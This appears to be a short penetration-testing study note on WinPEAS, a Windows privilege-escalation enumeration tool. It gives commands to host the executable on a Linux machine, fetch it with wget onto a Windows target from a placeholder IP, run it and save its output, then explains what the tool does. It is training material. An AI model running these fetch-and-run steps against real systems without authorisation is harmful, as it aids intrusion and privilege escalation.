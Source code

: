 --- ---

<h2>Top Commands</h2>

WinPEAS
```shell-session
#Linux Machine
Download the WinPEAS executable
python3 -m http.server PORT          ---> Host a server to transfer the file

#Windows Machine
wget http://IP/WinPEAS.exe
./winpeas.exe > outputfile.txt
```

- https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

---

<h2>What is WinPEAS</h2>

WinPEAS is a script developed to enumerate the target system to uncover privilege escalation paths. You can find more information about winPEAS and download either the precompiled executable or a .bat script. WinPEAS will run commands similar to the ones listed in the previous task and print their output. The output from winPEAS can be lengthy and sometimes difficult to read. This is why it would be good practice to always redirect the output to a file.